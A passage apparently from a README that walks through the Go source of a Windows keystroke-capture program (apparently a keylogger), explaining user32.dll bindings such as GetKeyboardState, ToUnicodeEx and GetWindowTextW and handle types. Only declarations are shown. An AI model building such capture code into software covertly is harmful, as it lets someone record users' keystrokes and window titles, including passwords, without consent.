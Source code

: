 
* procGetKeyboardState: store the function GetKeyboardState from *user32.dll*. This function gets the state of the entire keyboard (which keys are pressed)
    ```go
    procGetKeyboardState    = mod.NewProc("GetKeyboardState")
    ```


* procGetForegroundWindow: store the function GetForegroundWindow from *user32.dll*. This function gets the current foreground window
    ```go 
    procGetForegroundWindow = mod.NewProc("GetForegroundWindow")
    ```


* procToUnicodeEx: store the function ToUnicodeEx from *user32.dll*. This function converts scancodes returned by our keyboard hook to unicode
    ```go
    procToUnicodeEx         = mod.NewProc("ToUnicodeEx")
    ```


* procGetWindowText: store the function GetWindowText from *user32.dll*. This function gets the text of the window specified
    ```go
    procGetWindowText       = mod.NewProc("GetWindowTextW")
    ```


* procGetWindowTextLength: store the function GetWindowTextLength from *user32.dll*. This function gets the length of the text of a specified window 
    ```go
	procGetWindowTextLength = mod.NewProc("GetWindowTextLengthW")
    ```

```go
var (
	mod = windows.NewLazyDLL("user32.dll")

	procGetKeyState         = mod.NewProc("GetKeyState")
	procGetKeyboardLayout   = mod.NewProc("GetKeyboardLayout")
	procGetKeyboardState    = mod.NewProc("GetKeyboardState")
	procGetForegroundWindow = mod.NewProc("GetForegroundWindow")
	procToUnicodeEx         = mod.NewProc("ToUnicodeEx")
	procGetWindowText       = mod.NewProc("GetWindowTextW")
	procGetWindowTextLength = mod.NewProc("GetWindowTextLengthW")
)
```


### Types:
* HANDLE: uintptr type for HWND.
* HWND: HANDLE type for storing window hwnd.

```go
type (
	HANDLE uintptr
	HWND   HANDLE
)
```
